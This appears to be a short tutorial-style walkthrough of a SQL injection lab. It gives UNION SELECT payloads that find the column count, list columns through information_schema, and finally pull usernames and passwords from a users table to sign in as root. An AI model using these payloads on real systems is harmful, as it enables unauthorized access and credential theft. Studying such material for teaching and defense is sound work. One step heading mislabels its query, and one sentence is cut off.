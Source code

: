 # Dazala Injection Walk Through

## Step 1: Test for Input Type
Begin by testing the input type to understand how the application processes user
```sql
1 OR 1=1--
```


## Step 2: Check the Number of Output Fields
Use the following query:
```sql
1' UNION SELECT null, null, null FROM information_schema.tables;-- -
```
This query checks the number of output fields by trying different numbers of null values.

> You could also find the number of output fields by using the following query:
> ```sql
> 1' UNION SELECT null, null, null, null FROM information_schema.tables;-- -
> ```
>> Using the query above, you can determine the number of output fields by increasing the number of null values. So just remove or add null values to find the correct number of output fields.

### Step 3: Find Table Names
Use the following query to retrieve table names:
```sql
1' UNION SELECT column_name, null, null FROM information_schema.columns WHERE table_name='users';-- -
```
This query retrieves column names from the users table.

### Step 4: Retrieve Name and Password Columns from a Known Table
Use the following query:

```sql
1' UNION SELECT username, password, null FROM users;-- -
```
This query retrieves the username and password columns from the users table.
The table displays the root’s password, which can be used to sign in.


